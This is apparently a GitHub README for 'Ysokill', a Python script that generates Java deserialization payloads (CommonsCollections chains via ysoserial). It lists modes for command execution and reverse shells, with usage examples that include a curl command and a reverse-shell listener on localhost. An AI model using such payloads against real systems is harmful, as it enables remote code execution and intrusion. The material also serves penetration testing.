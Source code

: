<h1 align="center">
<br>⚔️ Fucktruts2 ⚔️
</h1>

<!-- ABOUT THE PROJECT -->
## 📚 About The Project


   Ysokill is a python script for generate all CommonsCollections payload's using the ysoserial.

![image](https://user-images.githubusercontent.com/80011252/195660401-b066c1dd-718f-4f0a-9c57-d9ee4f4fd44e.png)

### 🛠️ Installation


1. Clone the repo
   ```sh
   git clone https://github.com/scarmandef/ysokill.git
   ```
2. Install dependencies
   ```sh
   pip3 install -r requirements.txt
   ```
3. Run the script
   ```py
   python3 main.py
   ```

### 🖥️ Usage


1. Run the Script
   ```sh
   python3 main.py --help
   ```
2. Choose the mode
   ```sh
      1 - Object Command "H4sIAAAA"
      2 - Object Reverse Shell "H4sIAAAA"
      3 - Object Command "rO0ABXNy"
      4 - Object Reverse Shell "rO0ABXNy"
      5 - Binary Command
      6 - Binary Reverse Shell
   ```
3. Example: Modes 1 to 3
   ```py
   python3 main.py -m 1 -c 'curl https://127.0.0.1'
   ```
4. Example: Modes 3 to 4
   ```py
   python3 main.py -m 4 -l 127.0.0.1 -p 443
   ```
